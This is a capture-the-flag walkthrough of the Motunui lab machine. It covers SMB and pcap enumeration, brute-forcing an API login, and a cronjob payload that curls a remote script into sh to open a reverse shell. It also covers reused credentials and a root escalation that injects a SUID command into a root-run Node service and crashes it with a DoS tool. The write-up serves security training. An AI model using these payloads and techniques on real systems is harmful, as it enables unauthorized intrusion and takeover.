## TL;DR

In this challenge we find hidden subdomain `d3v3lopm3nt.motunui.thm` inside image `dashboard.png` that was extracted from `ticket_6746.pcapng` which was found inside SMB share.

Then, we enumerate the `/docs` there, brute force the password of `maui` and create cronjob to get reverse shell.

From there we can find the password of `moana` hidden inside `/etc/network.pkt`, being reused as we get hint to.

Lastly, we move to root using password found on the same pcapng file, this time decrypted with `/etc/ssl.txt` we find.

Another unexpected way to move to root, is to modify `/var/www/tls-html/server.js` which is being controlled by `www-data`, and then crash the service using `DoS`, which will make the service restart as root, and give us root command execution.

### Recon

we start with `rustscan`, using this command:
```bash
rustscan -a $target -- -sV -sC -oN nmap.txt -oX nmap.xml
```


we can see port `22` with ssh, port `80` with apache http server, port `139` and `445` with smb, port `3000` with some http server and port `5000` with node.js.

```bash
PORT     STATE SERVICE     REASON         VERSION                                                                                                                                                                                                                           
22/tcp   open  ssh         syn-ack ttl 62 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)                                                                                                                                                                      
| ssh-hostkey:                                                                                                                                                                                                                                                              
|   2048 20:f4:43:ac:39:fe:94:13:7a:ad:3d:e6:5f:b4:7e:71 (RSA)                                                                                                                                                                                                              
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDt7X7Nv+r5+vEn+V8jvNI3Or5lIAdCOlEJb+1IxbUlC5m3EN2HvZnOamrvyJkK/bk9dbBRM2EugTMgwiOLotDtqM5vJkJWr5KRVdXXsBQ7zFH46qF1D126XVLs4MozDbSu9ElYGARZhwyAPIOG4F6G3PY558aD6X7Gn+yuI5GT6Cu1NdPYJJ9FuxOK+jG15vTEEdC4BtDQEvtFrq+tlTvT0D9ssbqsgAJeq8
nk3BhDt3h7btY1OL3zihB7VIWf/KTkw616gCHZdHJ72HAmjB8dNiszCTf2VDV9uExPyEGr6x/hpu5HlOdCWjCKC0sS4p9Sx1RVLyGjzlZWlOuB3FSB                                                                                                                                                          
|   256 49:8c:75:e1:78:e9:72:65:de:c9:14:74:0f:d4:1a:81 (ECDSA)                                                                                                                                                                                                             
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBAQsL1elZQegY4ou3qLqRejr0DA0Yh7/csYZP0VWyfbSMjdsZ7uGSfu2EWxt/Em4c8e10+D0vwV0k0F4qBadIpY=                                                                                                          
|   256 0b:b6:27:f9:ad:ed:22:a9:90:ac:9e:b3:85:1b:aa:96 (ED25519)                                                                                                                                                                                                           
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIKftXXbH4Rbbww9jEU9z1rSmHs3P3a1AUzaEHEfNDtJv                                                                                                                                                                                          
80/tcp   open  http        syn-ack ttl 62 Apache httpd 2.4.29 ((Ubuntu))                                                                                                                                                                                                    
|_http-title: Apache2 Ubuntu Default Page: It works                                                                                                                                                                                                                         
|_http-server-header: Apache/2.4.29 (Ubuntu)                                                                                                                                                                                                                                
| http-methods:                                                                                                                                                                                                                                                             
|_  Supported Methods: GET POST OPTIONS HEAD                                                                                                                                                                                                                                
139/tcp  open  netbios-ssn syn-ack ttl 62 Samba smbd 3.X - 4.X (workgroup: WORKGROUP)                                                                                                                                                                                       
445/tcp  open  netbios-ssn syn-ack ttl 62 Samba smbd 4.7.6-Ubuntu (workgroup: WORKGROUP)                                                                                                                                                                                    
3000/tcp open  ppp?        syn-ack ttl 62                                                                                                                                                                                                                                   
| fingerprint-strings:                                                                                                                                                                                                                                                      
|   FourOhFourRequest:                                                                                                                                                                                                                                                      
|     HTTP/1.1 404 Not Found                                                                                                                                                                                                                                                
|     Content-Security-Policy: default-src 'none'                                                                                                                                                                                                                           
|     X-Content-Type-Options: nosniff                                                                                                                                                                                                                                       
|     Content-Type: text/html; charset=utf-8                                                                                                                                                                                                                                
|     Content-Length: 174                                                                                                                                                                                                                                                   
|     Date: Sat, 03 Jan 2026 22:41:37 GMT                                                                                                                                                                                                                                   
|     Connection: close                                                                                                                                                                                                                                                     
|     <!DOCTYPE html>                                                                                                                                                                                                                                                       
|     <html lang="en">                                                                                                                                                                                                                                                      
|     <head>                                                                                                                                                                                                                                                                
|     <meta charset="utf-8">                                                                                                                                                                                                                                                
|     <title>Error</title>                                                                                                                                                                                                                                                  
|     </head>                                                                                                                                                                                                                                                               
|     <body>                                                                                                                                                                                                                                                                
|     <pre>Cannot GET /nice%20ports%2C/Tri%6Eity.txt%2ebak</pre>                                                                                                                                                                                                            
|     </body>                                                                                                                                                                                                                                                               
|     </html>
|   GetRequest:                                                                                                                                                                                                                                                             
|     HTTP/1.1 404 Not Found                                                                                                                                                                                                                                                
|     Content-Security-Policy: default-src 'none'                                                                                                                                                                                                                           
|     X-Content-Type-Options: nosniff                                                                                                                                                                                                                                       
|     Content-Type: text/html; charset=utf-8                                                                                                                                                                                                                                
|     Content-Length: 139                                                                                                                                                                                                                                                   
|     Date: Sat, 03 Jan 2026 22:41:33 GMT                                                                                                                                                                                                                                   
|     Connection: close                                                                                                                                     
|     <!DOCTYPE html>                                                                                                                                       
|     <html lang="en">                                                                                                                                      
|     <head>                                                       
|     <meta charset="utf-8">                                       
|     <title>Error</title>                                         
|     </head>                                                      
|     <body>                                                       
|     <pre>Cannot GET /</pre>                                      
|     </body>                                                      
|     </html>                                                      
|   HTTPOptions:                                                   
|     HTTP/1.1 404 Not Found                                       
|     Content-Security-Policy: default-src 'none'                                                                                     
|     X-Content-Type-Options: nosniff                              
|     Content-Type: text/html; charset=utf-8                                                                                          
|     Content-Length: 143                                          
|     Date: Sat, 03 Jan 2026 22:41:34 GMT                                                                                             
|     Connection: close                                            
|     <!DOCTYPE html>                                              
|     <html lang="en">                                             
|     <head>                                                       
|     <meta charset="utf-8">                                       
|     <title>Error</title>                                         
|     </head>                                                      
|     <body>                                                       
|     <pre>Cannot OPTIONS /</pre>                                  
|     </body>                                                      
|_    </html>                                                      
5000/tcp open  ssl/http    syn-ack ttl 62 Node.js (Express middleware)                                                                
| http-methods:                                                    
|_  Supported Methods: GET HEAD POST OPTIONS                                                                                          
|_http-title: Site doesn't have a title (text/html; charset=utf-8).
```

I added `motunui.thm` to my `/etc/hosts`.


### Find hidden subdomain d3v3lopm3nt.motunui.thm inside ticket_6746.pcapng file found inside smb share

I started with `smb`, I tried to list shares anonymously, and found `trace`
```bash
┌──(agonen㉿kali)-[~/thm/Motunui/smb_data]                                                                                                                  
└─$ smbclient -NL \\\\motunui.thm\\                                                                                                                         

        Sharename       Type      Comment
        ---------       ----      -------
        print$          Disk      Printer Drivers
        traces          Disk      Network shared files
        IPC$            IPC       IPC Service (motunui server (Samba, Ubuntu))
```


Next, I used command to get all files recursively:
```bash
smbclient -N \\\\motunui.thm\\traces\\ -c "recurse ON; prompt OFF; mget *"
```


First, inside `maui/ticket_6746.pcapng`, which I analyzed with WireShark, I found an image:


I extracted this, Using the following steps:
> File > Export Objects > HTTP


and we got this image:


all the other .pcapng files were empty.
Anyway, We got the message:
```
The pages included on this virtual host are solely for developers Of Motunui. Please ensure you have authorisation to be viewing this.
```

And a new subdomain `d3v3lopm3nt.motunui.thm`, let's add it to our `/etc/hosts`.

### Brute force maui password and create cronjob for reverse shell

Using `ffuf` I found an endpoint called `/docs`:
```bash
┌──(agonen㉿kali)-[~/thm/Motunui]
└─$ ffuf -u "http://d3v3lopm3nt.motunui.thm/FUZZ" -w /usr/share/SecLists/Discovery/Web-Content/common.txt -fc 403

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://d3v3lopm3nt.motunui.thm/FUZZ
 :: Wordlist         : FUZZ: /usr/share/SecLists/Discovery/Web-Content/common.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response status: 403
________________________________________________

docs                    [Status: 301, Size: 333, Words: 20, Lines: 10, Duration: 151ms]
index.php               [Status: 200, Size: 248, Words: 24, Lines: 11, Duration: 162ms]
javascript              [Status: 301, Size: 339, Words: 20, Lines: 10, Duration: 160ms]
:: Progress: [4750/4750] :: Job [1/1] :: 242 req/sec :: Duration: [0:00:20] :: Errors: 0 ::
```

First, I visited:
```bash
http://d3v3lopm3nt.motunui.thm/docs/README.md
```


Then, I went to `routes.md`:
```bash
http://d3v3lopm3nt.motunui.thm/docs/ROUTES.md
```


We can see there are two endpoints at `http://api.motunui.thm:3000/v2/`, `jobs` and `login`.

First, we need to add `api.motunui.thm` to our `/etc/hosts`.

I tried to login with some default credentials but it didn't work.


Then, I tried to access `/v1/login`, it says:
```
please get maui to update these routes
```


Okay, so `maui` needs to update the routes.
I guess `maui` is a developer, it means he probably has some account. Let's try to brute force his password using `ffuf` and rockyou.txt.
```bash
ffuf -u "http://api.motunui.thm:3000/v2/login" -X POST -H 'Content-Type: application/json' -d '{"username":"maui","password":"FUZZ"}' -w /usr/share/wordlists/rockyou.txt -fc 401
```

I found the password, which is `island`.


I logged in and got the hash `aXNsYW5k`.


Okay, now we can create cronjob, for example this cronjob:
```bash
* * * * * curl http://192.168.164.248:8081/rev_shell.sh|sh
```

The full payload will be:
```json
{
    "hash":"aXNsYW5k",
    "job":"* * * * * curl http://192.168.164.248:8081/rev_shell.sh|sh"
}
```



Inside `rev_shell.sh` we can put the penelope payload:



and then, we got our reverse shell, as user `www-data`:



### Find password for moana on /etc/network.pkt

We can find the file `read_me` inside `moana`'s home folder:
```bash
www-data@motunui:/home/moana$ cat read_me 
I know you've been on vacation and the last thing you want is me nagging you.

But will you please consider not using the same password for all services? It puts us all at risk.

I have started planning the new network design in packet tracer, and since you're 'the best engineer this island has seen', go find it and finish it.
```
Okay, there is some password reuse user `moana` is doing. In addition, there is same packer tracer, linpeas actually find the file `/etc/network.pkt` 



So, let's install the software for analyzing this file from the official website of Cisco [https://www.netacad.com/resources/lab-downloads](https://www.netacad.com/resources/lab-downloads). You'll need to have an account, just create one.

We can this schema:



Okay, I clicked the switch, and went to the CLI tab.
Then, we can type `enable` and `show run`, and find the password of moana.
```bash
username moana privilege 1 password 0 H0wF4ri'LLG0
```



We can assume there is password reuse, let's try to ssh with the password we found:
```bash
ssh moana@motunui.thm # H0wF4ri'LLG0
```



we can grab the user flag:
```bash
moana@motunui:~$ cat user.txt 
THM{m0an4_0f_M0tunu1}
```

### Privilege Escalation to Root using TLS decryption and find root password

The first way will be to find the file `/etc/ssl.txt` on the machine, let's download this file.

Then, we'll load this session secrets to WireShark, with the same packet from before, I followed the instructions from here [https://wiki.wireshark.org/TLS](https://wiki.wireshark.org/TLS)

> Edit -> Preferences -> Protocols -> TLS -> load ssl file



Now, we can see the decrypted messages.

On one of the http streams, we can find the credentials:
```bash
username=root&password=Pl3aseW0rk
```



Now, we can move to user root and grab the root flag:



and the root flag:
```bash
root@motunui:/tmp# cat /root/root.txt 
THM{h34rT_r35T0r3d}
```

### Privilege Escalation to Root using modify server.js and DoS the server

When I checked for running services, we can see the service `https.service` is being executed by root, and execute the script `/var/www/tls-html/server.js`:
```bash
moana@motunui:/home$ systemctl cat https.service                                                                                                 
# /etc/systemd/system/https.service                                                                                                              
[Unit]                                                                                                                                           
Description=The HTTPS website for Motunui                                                                                                        

[Service]
User=root
Group=root
ExecStart=/usr/bin/node /var/www/tls-html/server.js
Restart=always
RestartSec=5

[Install]
WantedBy=multi-user.target
```

The interesting part is that the ones who controls `/var/www/tls-html/server.js` is `www-data`, which we already obtained.

So, first let's check the file:
```js
const app = require('express')();
const https = require('https');
const fs = require('fs');

app.get('/', (req, res) => {
        res.send('welcome');
});

https.createServer({
        key: fs.readFileSync('/var/www/tls-html/key.pem'),
        cert: fs.readFileSync('/var/www/tls-html/cert.pem'),
        passphrase: 'Password1'
}, app).listen(5000);
```

Okay, it simply listens on port `5000`. I wants to add this lines into the file, now it should add `SUID` bit to `/bin/bash`:
```js
var exec = require('child_process').exec;

exec('chmod u+s /bin/bash', () => {});
```

And we modify the file:



Now, I want to make the service restart. The idea is to use [https://github.com/jseidl/GoldenEye](https://github.com/jseidl/GoldenEye), which will `DoS` the service until it crashes and restarts.

We can check for the status of the service:
```bash
systemctl status https.service
```



Okay, let's execute the `DoS` attack, until the service crash, and then stop it:
```bash
python3 goldeneye.py http://localhost:5000/
```



and we can check for the status again, we can see it restarted 11 seconds ago:



When checking `/bin/bash`, we have the SUID bit:



Let's get root shell:
```bash
moana@motunui:~$ /bin/bash -p
bash-4.4# id
uid=1000(moana) gid=1000(moana) euid=0(root) groups=1000(moana)
bash-4.4# cat /root/root.txt 
THM{h34rT_r35T0r3d}
```